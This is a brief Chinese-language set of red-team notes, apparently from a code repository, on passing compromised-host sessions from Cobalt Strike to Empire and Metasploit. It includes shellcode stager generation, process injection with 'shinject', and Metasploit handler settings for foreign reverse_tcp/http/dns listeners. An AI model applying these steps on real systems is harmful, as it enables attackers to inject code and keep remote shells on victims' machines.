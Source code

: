   #### 派生Empire
	创建一个Listener
	创建一个stager
	>usestager windows/shellcode 执行，会生成/tmp/launcher.bin
	CS 使用PS命令查找进程，进行进程注入(>shinject 进程id x64)，选择launcher.bin即可
  #### 派生MSF
	使用CS的外部监听器
	windows/foreign/reverse_dns_txt
	windows/foreign/reverse_http
	windows/foreign/reverse_https
	windows/foreign/reverse_tcp
	msf开启监听
	Set LHOST and LPORT 设置为beacon
	Set DisablePayloadHandler to True
	Set PrependMigrate to True
	exploit -j
	cobalt strike会话主机上点击spwan，创建外部监听器，选择windows/foreign/reverse_tcp指定MSF监听的IP和端口即可